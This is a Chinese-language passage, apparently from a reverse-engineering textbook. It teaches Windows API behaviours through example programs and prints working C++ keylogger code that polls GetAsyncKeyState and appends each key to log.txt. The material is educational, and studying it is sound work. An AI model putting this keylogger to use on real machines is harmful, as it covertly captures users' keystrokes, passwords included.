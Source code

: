 +   将键盘记录器保存到`filez`中

+   枚举注册表键并打印输出

+   列出进程并打印输出

+   加密数据并将其存储到文件中

+   解密加密文件

+   监听端口`9999`并在连接时发送回一个消息

这些程序的源代码可以在[`github.com/PacktPublishing/Mastering-Reverse-Engineering/tree/master/ch7`](https://github.com/PacktPublishing/Mastering-Reverse-Engineering/tree/master/ch7)找到。可以随意使用这些程序，添加自己的代码，甚至创建自己的版本。这里的目标是让你学习这些 API 如何协同工作。

确定程序行为的关键之一是学习如何使用 API。每个 API 的使用方法都在微软开发者网络（MSDN）文档库中有记录。我们即将查看的程序只是程序行为的示例。我们利用这些 API 在这些行为的基础上进行扩展。我们在这里的目标是学习这些 API 的使用方法以及它们如何相互交互。

作为一名逆向工程师，读者应当并且要求使用 MSDN 或其他资源进一步了解 API 的工作原理。可以在 MSDN 文档库中搜索 API 名称，网址为[`msdn.microsoft.com`](https://msdn.microsoft.com)。

# 键盘记录器

键盘记录器是一个记录用户按键的程序。日志通常保存在一个文件中。这里使用的核心 API 是`GetAsyncKeyState`。每个可以从键盘或鼠标按下的按钮都有一个被称为虚拟键代码的分配 ID。指定虚拟键代码后，`GetAsyncKeyState`会提供关于该键是否被按下的信息。

这个程序的源代码可以在[`github.com/PacktPublishing/Mastering-Reverse-Engineering/blob/master/ch7/keylogger.cpp`](https://github.com/PacktPublishing/Mastering-Reverse-Engineering/blob/master/ch7/keylogger.cpp)找到。

为了使键盘记录功能正常工作，我们需要检查每个虚拟键码的状态，并将它们放入一个循环中。一旦识别到一个按键被按下，虚拟键码就会被存储到文件中。以下代码实现了这一功能：

```
  while (true) {
 for (char i = 1; i <= 255; i++) {
 if (GetAsyncKeyState(i) & 1) {
 sprintf_s(lpBuffer, "\\x%02x", i);
 LogFile(lpBuffer, (char*)"log.txt");
 }
 }
```

`LogFile` 是一个函数，接受两个参数：它写入的数据和日志文件的文件路径。`lpBuffer` 包含数据，并通过 `sprintf_s` API 格式化为 `\\x%02x`。因此，格式会将任何数字转换为两位数的十六进制字符串。数字 9 会变成 `\x09`，数字 106 会变成 `\x6a`。

我们只需要三个 Windows API 函数来实现将数据存储到日志文件中——`CreateFile`、`WriteFile` 和 `CloseHandle`——如下面的代码所示：

```
void LogFile(char* lpBuffer, LPCSTR fname) {

  BOOL bErrorFlag;
  DWORD dwBytesWritten;

  HANDLE hFile = CreateFileA(fname, FILE_APPEND_DATA, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  bErrorFlag = WriteFile(hFile, lpBuffer, strlen(lpBuffer), &dwBytesWritten, NULL);
  CloseHandle(hFile);

  return;_
}
```

